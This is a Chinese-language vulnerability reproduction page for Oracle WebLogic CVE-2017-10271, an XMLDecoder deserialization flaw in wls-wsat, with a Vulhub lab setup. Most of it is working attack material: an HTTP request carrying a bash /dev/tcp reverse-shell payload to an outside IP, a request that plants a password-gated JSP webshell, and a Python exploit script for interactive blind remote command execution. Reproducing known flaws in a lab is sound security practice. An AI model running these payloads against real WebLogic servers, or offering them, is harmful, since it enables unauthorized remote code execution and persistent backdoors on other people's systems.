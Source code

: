 # Weblogic < 10.3.6 'wls-wsat' XMLDecoder 反序列化漏洞 CVE-2017-10271

## 漏洞描述

Weblogic的WLS Security组件对外提供webservice服务，其中使用了XMLDecoder来解析用户传入的XML数据，在解析的过程中出现反序列化漏洞，导致可执行任意命令。

参考链接：

- https://www.exploit-db.com/exploits/43458/
- https://paper.seebug.org/487/
- [https://github.com/Tom4t0/Tom4t0.github.io/blob/master/_posts/2017-12-22-WebLogic%20WLS-WebServices组件反序列化漏洞分析.md](https://github.com/Tom4t0/Tom4t0.github.io/blob/master/_posts/2017-12-22-WebLogic WLS-WebServices组件反序列化漏洞分析.md)
- http://blog.diniscruz.com/2013/08/using-xmldecoder-to-execute-server-side.html

## 环境搭建

Vulhub启动测试环境：

```
docker-compose up -d
```

等待一段时间，访问`http://your-ip:7001/`即可看到一个404页面，说明weblogic已成功启动。

![image-20220302164201482](images/202203021642629.png)

## 漏洞复现

### 反弹shell

发送如下数据包（注意其中反弹shell的语句，需要进行编码，否则解析XML的时候将出现格式错误）：

```
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: your-ip:7001
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: text/xml
Content-Length: 633

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"> <soapenv:Header>
<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<java version="1.4.0" class="java.beans.XMLDecoder">
<void class="java.lang.ProcessBuilder">
<array class="java.lang.String" length="3">
<void index="0">
<string>/bin/bash</string>
</void>
<void index="1">
<string>-c</string>
</void>
<void index="2">
<string>bash -i &gt;&amp; /dev/tcp/192.168.174.128/9999 0&gt;&amp;1</string>
</void>
</array>
<void method="start"/></void>
</java>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body/>
</soapenv:Envelope>
```

成功获取shell：

![image-20220302164442146](images/202203021644422.png)

### webshell

```
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: your-ip:7001
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: text/xml
Content-Length: 638

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
    <soapenv:Header>
    <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
    <java><java version="1.4.0" class="java.beans.XMLDecoder">
    <object class="java.io.PrintWriter"> 
    <string>servers/AdminServer/tmp/_WL_internal/bea_wls_internal/9j4dqk/war/test.jsp</string>
    <void method="println"><string>
    <![CDATA[
    <% if("poc".equals(request.getParameter("pwd"))){
    java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("i")).getInputStream();
    int a = -1; byte[] b = new byte[2048]; out.print("<pre>");
            while((a=in.read(b))!=-1){
                out.println(new String(b,0,a));
            }
            out.print("</pre>");
        }
    %>
    ]]>
    </string>
    </void>
    <void method="close"/>
    </object></java></java>
    </work:WorkContext>
    </soapenv:Header>
    <soapenv:Body/>
</soapenv:Envelope>
```

访问：`http://your-ip:7001/bea_wls_internal/test.jsp`，执行命令：

![image-20220302165701848](images/202203021657971.png)


## 漏洞EXP

```python
from __future__ import print_function
from builtins import input
import requests
import sys

url_in = sys.argv[1]
payload_url = url_in + "/wls-wsat/CoordinatorPortType"
payload_header = {'content-type': 'text/xml'}


def payload_command (command_in):
    html_escape_table = {
        "&": "&amp;",
        '"': "&quot;",
        "'": "&apos;",
        ">": "&gt;",
        "<": "&lt;",
    }
    command_filtered = "<string>"+"".join(html_escape_table.get(c, c) for c in command_in)+"</string>"
    payload_1 = "<soapenv:Envelope xmlns:soapenv=\"http://schemas.xmlsoap.org/soap/envelope/\"> \n" \
                "   <soapenv:Header> " \
                "       <work:WorkContext xmlns:work=\"http://bea.com/2004/06/soap/workarea/\"> \n" \
                "           <java version=\"1.8.0_151\" class=\"java.beans.XMLDecoder\"> \n" \
                "               <void class=\"java.lang.ProcessBuilder\"> \n" \
                "                  <array class=\"java.lang.String\" length=\"3\">" \
                "                      <void index = \"0\">                       " \
                "                          <string>cmd</string>                 " \
                "                      </void>                                    " \
                "                      <void index = \"1\">                       " \
                "                          <string>/c</string>                  " \
                "                      </void>                                    " \
                "                      <void index = \"2\">                       " \
                + command_filtered + \
                "                      </void>                                    " \
                "                  </array>" \
                "                  <void method=\"start\"/>" \
                "                  </void>" \
                "            </java>" \
                "        </work:WorkContext>" \
                "   </soapenv:Header>" \
                "   <soapenv:Body/>" \
                "</soapenv:Envelope>"
    return payload_1

def do_post(command_in):
    result = requests.post(payload_url, payload_command(command_in ),headers = payload_header)

    if result.status_code == 500:
        print("Command Executed \n")
    else:
        print("Something Went Wrong \n")



print("***************************************************** \n" \
       "****************   Coded By 1337g  ****************** \n" \
       "*  CVE-2017-10271 Blind Remote Command Execute EXP  * \n" \
       "***************************************************** \n")

while 1:
    command_in = input("Eneter your command here: ")
    if command_in == "exit" : exit(0)
    do_post(command_in)
```


